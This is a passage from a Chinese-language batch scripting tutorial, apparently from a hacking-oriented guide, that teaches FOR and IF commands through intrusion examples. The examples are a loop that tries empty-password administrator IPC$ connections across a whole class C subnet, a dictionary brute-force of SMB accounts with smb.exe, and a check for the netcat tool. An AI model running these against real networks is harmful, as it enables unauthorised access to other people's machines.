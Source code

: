 　　telnet IP telnet连接对方主机（同win2K），当出现bash$时就说明连接成功。

　　ftp ftp连接上某服务器（同win2K）

　　批处理命令与变量

　　1：for命令及变量 基本格式

　　FOR /参数 %variable IN (set) DO command [command_parameters] %variable:指定一个单一字母可替换的参数，如：%i ，而指定一个变量则用：%%i ，而调用变量时用：%i% ，变量是区分大小写的（%i 不等于 %I）。

　　批处理每次能处理的变量从%0—%9共10个，其中%0默认给批处理文件名使用，%1默认为使用此批处理时输入的的第一个值，同理：%2—%9指输入的第2-9个值；例：net use ipipc$ pass /user:user 中ip为%1,pass为%2 ,user为%3

　　(set):指定一个或一组文件，可使用通配符，如：(D:user.txt)和(1 1 254)(1 -1 254),{ “(1 1 254)”第一个"1"指起始值，第二个"1"指增长量，第三个"254"指结束值，即：从1到254；“(1 -1 254)”说明：即从254到1 }

　　command：指定对第个文件执行的命令，如：net use命令；如要执行多个命令时，命令这间加：& 来隔开

　　command_parameters：为特定命令指定参数或命令行开关

　　IN (set)：指在(set)中取值；DO command ：指执行command

　　参数：/L 指用增量形式{ (set)为增量形式时 }；/F 指从文件中不断取值，直到取完为止{ (set)为文件时，如(d:pass.txt)时 }。

　　用法举例：

　　@echo off

　　echo 用法格式：test.bat *.*.* > test.txt

　　for /L %%G in (1 1 254) do echo %1.%%G >>test.txt & net use \%1.%%G /user:administrator | find "命令成功完成" >>test.txt

　　存为test.bat 说明：对指定的一个C类网段的254个IP依次试建立administrator密码为空的IPC$连接，如果成功就把该IP存在test.txt中。

　　/L指用增量形式（即从1-254或254-1）；输入的IP前面三位：*.*.*为批处理默认的 %1；%%G 为变量(ip的最后一位）；& 用来隔开echo 和net use 这二个命令；| 指建立了ipc$后，在结果中用find查看是否有"命令成功完成"信息；%1.%%G 为完整的IP地址；(1 1 254) 指起始值，增长量，结止值。

　　@echo off

　　echo 用法格式：ok.bat ip

　　FOR /F %%i IN (D:user.dic) DO smb.exe %1 %%i D:pass.dic 200

　　存为：ok.exe 说明：输入一个IP后，用字典文件d:pass.dic来暴解d:user.dic中的用户密码，直到文件中值取完为止。%%i为用户名；%1为输入的IP地址（默认）。

　　七：

　　2：if命令及变量 基本格式

　　IF [not] errorlevel 数字 命令语句 如果程序运行最后返回一个等于或大于指定数字的退出编码，指定条件为“真”。

　　例：IF errorlevel 0 命令 指程序执行后返回的值为0时，就值行后面的命令；IF not errorlevel 1 命令指程序执行最后返回的值不等于1，就执行后面的命令。

　　0 指发现并成功执行（真）；1 指没有发现、没执行（假）。

　　IF [not] 字符串1==字符串2 命令语句 如果指定的文本字符串匹配（即：字符串1 等于 字符串2），就执行后面的命令。

　　例：“if "%2%"=="4" goto start”指：如果输入的第二个变量为4时，执行后面的命令（注意：调用变量时就%变量名%并加" "）

　　IF [not] exist 文件名 命令语句 如果指定的文件名存在，就执行后面的命令。

　　例：“if not nc.exe goto end”指：如果没有发现nc.exe文件就跳到":end"标签处。
